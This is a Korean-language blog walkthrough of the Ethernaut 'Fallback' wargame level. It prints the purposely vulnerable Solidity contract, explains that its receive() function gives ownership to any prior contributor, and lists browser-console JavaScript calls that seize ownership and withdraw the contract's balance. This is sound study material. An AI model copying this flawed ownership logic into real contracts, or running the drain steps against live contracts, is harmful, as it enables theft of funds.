

# 👋 1. Fallback
__Difficulty 1/10__

직접 푼 Ethernauts 풀이를 적어보려고 한다. 취약점에 공부했던 취약점을 실제로 공격해보며 복습 및 실습을 해볼수 있어 좋은 것 같다.

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- contract의 ownership을 뺐어오기
- contract의 balance를 0으로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

    using SafeMath for uint256;

    // 각각의 address당 ether 기여도(contribution)
    mapping(address => uint) public contributions;

    // Fallback Contract의 owner address
    address payable public owner;

    //constructor
    constructor() public {
        // Deployer를 owner로 설정
        owner = msg.sender;

        // Deployer의 기여도를 1000 ether로 설정
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //Owner만 사용할 수 있게하는 modifier
    modifier onlyOwner {
            // msg.sender가 owner인지 아닌지 확인
            require(
                msg.sender == owner,
                "caller is not the owner"
            );
            _;
        }

    //contract의 기여도를 올릴 수 있는 function이다.
    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    function contribute() public payable {
        //msg.sender가 보낸 ether의 양이 0.001 이하인지 확인
        require(msg.value < 0.001 ether);

        //msg.sender의 기여도(contributions)를 msg.value만큼 올린다.
        contributions[msg.sender] += msg.value;

        //만약 msg.sender의 contributions가 owner의 contributions보다 크다면 ownership이 transfer된다.
        //초기에 owner의 contributions은 1000 ether이기 때문에 ownership을 바꾸기 위해서는 1000 ether이상의 기여해야한다.
        if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
        }
    }

    //기여도를 확인할 수 있는 view function
    function getContribution() public view returns (uint) {
        //msg.sender의 기여도를 return 한다.
        return contributions[msg.sender];
    }

    //contract가 가지고 있는 모든 balance(ether)를 owner에게 전송한다.
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    //payable로 선언되어 ether를 전송하고 받을 수 있다.
    //receive function
    receive() external payable {
        //msg.sender의 msg.value가 0보다 크고 기여도(contributions)가 0보다 큰지 확인한다
        require(msg.value > 0 && contributions[msg.sender] > 0);

        //owner를 msg.sender로 바꾼다.
        owner = msg.sender;
    }
}
```

- - -

## 풀이
우리는 2가지의 문제를 풀어야 한다.
1. contract의 ownership을 뺐어오기
2. contract의 balance를 0으로 만들기

차례차례 풀어보겠다.
코드를 봤을 떄 contract의 ownership을 가져올 수 있는 방법은 2가지가 있다.
- contribute()
- receive()

1. contribute()를 이용해 owner가 되려면 초기 owner의 contributions 1000 ether보다 더 큰 돈을 contract로 보내야 한다.
2. 하지만 contribute()의 require을 보면 한번에 0.001 ether이하의 ether만 보낼 수 있게 되어있다. contract에서 의도한대로 owner가 되려면 __1,000,000 + a__ 번 전송해야한다. 
3. 이 방법은 비용도 많이들고 엄청난 시간이 걸리기 때문에 receive 함수를 확인해보자!
4. receive 함수를 보면 msg.value나 0보다 크고 contributions가 0보다 크면 owner를 msg.sender로 바꿀 수 있다.
5. 그렇다면 contribute() 호출해 작은 값을 보내어 contributions를 0을 초과하게 만든다음 receive함수를 호출하면 owner를 가져올 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
//0.001보다 작은 0.0001을 보낸다.
await contract.contribute.sendTransaction({value:toWei('0.0001')})
//나의 contribution을 확인한다.
fromWei(await contract.getContribution())
//contract의 balance를 확인한다.
await getBalance(instance)
//모두 0.0001과 같을 것이다!

//나의 contribution이 0을 초과했으니 recevice()를 실행 시킬 수 있는 명령어를 실행한다.
contract.sendTransaction({value:toWei('0.0001')})
//contract의 owner address를 확인한다.
await contract.owner()
//나의 address를 확인한다.
player
//play(나)이 owner가 된 것을 확인 할 수 있다.

```
이렇게 ownership을 가져올 수 있었다.   

다음으로 contract의 balance를 0으로 만들기이다. 
contract의 balance를 0을로 만들기는 매우 쉽다!
owner만 call할 수 있는 함수인 withdraw을 call하기만 하면 된다.

```javascript
//withdraw한다.
await contract.withdraw()

//contract의 balance가 0이 된것을 확인한다.
await getBalance(instance)
```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 다음과 같이 뜨면서 다음 level로 넘어갈 수 있다.



- - -
## 마무리
얼마전에 공부했던 king of Ether(DOS with unexpected revert)가 생각난다. revert를 통해 하는 ownership을 가져오는건 아니었지만 비슷한 점이 많은 것 같았다. smart contract을 짤때 logic은 괜찮아보여도 우리가 생각하지 못한 허점이 있을 수 있다! 항상 조심하고 또 조심하자!
나중에는 보안감사(auditing)도 배워 내의 smart contract를 audit 할 수 있었으면 좋겠다! ~~이거로 취업 해야지ㅎ~~

고작 1단계를 완료한 것이지만 게임을 통해 배우니 더 재밌는 것 같다. 앞으로도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/

```toc

```